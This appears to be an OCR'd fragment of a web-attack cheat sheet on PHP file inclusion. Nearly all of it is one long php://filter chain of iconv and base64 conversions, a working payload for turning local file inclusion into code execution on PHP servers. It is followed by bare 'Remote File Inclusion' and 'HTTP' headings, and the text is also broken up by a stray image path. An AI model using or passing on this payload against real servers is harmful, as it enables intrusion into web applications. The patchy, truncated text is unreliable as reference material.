 ```
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```


### Remote File Inclusion  `require the allow_url_include`

### HTTP
